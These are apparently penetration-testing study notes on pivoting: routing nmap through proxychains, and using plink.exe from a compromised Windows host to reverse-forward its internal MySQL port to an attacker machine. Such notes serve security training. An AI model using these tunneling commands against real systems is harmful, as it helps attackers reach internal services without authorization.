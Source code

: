   
We still must direct our reconnaissance and attack tools to use this proxy.  
  
[proxychains](proxychains.md)  
  
Add SOCKS4 proxy to _/etc/proxychains4.conf_, and run all desired commands through it:  
```bash
vim /etc/proxychains4.conf  
	...  
	[ProxyList]  
	# add proxy here ...  
	# meanwile  
	# defaults set to "tor"  
	socks4  127.0.0.1 9050  
  
sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110  
	Starting Nmap 7.60 ( https://nmap.org ) at 2019-04-19 18:18 EEST  
	|S-chain|-<>-127.0.0.1:9050-<><>-192.168.1.110:443-<--timeout  
	...  
	|S-chain|-<>-127.0.0.1:9050-<><>-192.168.1.110:445-<><>-OK  
	...
```


  
### Plink.exe

Tunneling on Windows.  
  
Scenario:  
	We've gained access to a Windows10 machine during our assessment through a vuln in Sync Breeze & have obtained a SYSTEM-level reverse shell.  
	During enum (**netstat -anpb TCP**) we discover MySQL running on 3306.  
	Transfer [plink.exe](plink.exe.md) to the target  
  
Ex:  
```bash
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
```
.
	**-ssh** - Connect via SSH  
	**-l** - As kali user  
	**-pw** - With password ‘ilak’  
	**-R** - Create a remote port forward of 10.11.0.4's port 1234 to the MySQL port (3306) on the Window's target (127.0.0.1)  
  
  
**cmd.exe /c echo y** - As first time plink connects to a host, it'll attempt to cache the host key in the registry.  
	Likely we won't have the necessary interactivity w/in our remote shell, hence this addition.  
  
  
With **plink** set up through our remote shell on the Win box, we can attack via our target:  
```bash
sudo nmap -sS -sV 127.0.0.1 -p 1234  
	...  
	PORT     STATE SERVICE VERSION  
	1234/tcp open  mysql   MySQL 5.5.5-10.1.31-MariaDB
```
****NOTE: Make sure ssh.service is started on kali first. & make sure MySQL is started on Win first.  
  